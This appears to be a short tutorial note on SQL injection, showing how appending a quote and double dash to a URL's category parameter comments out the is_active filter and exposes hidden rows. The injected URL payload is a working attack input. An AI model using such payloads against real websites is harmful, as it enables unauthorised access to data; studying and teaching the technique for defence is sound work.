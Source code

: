 # SQL Injection

1. Retrieving Hidden Data
   
    https://sample.com/blogs?category=Python

    ```sql
    SELECT * FROM blogs WHERE category = 'python' AND is_active = True
    ```

    https://sample.com/blogs?category=Python'--

    The double-dash sequence is a comment indicator
    
    ```sql
    SELECT * FROM blogs WHERE category = 'python'--' AND is_active = 1
    ```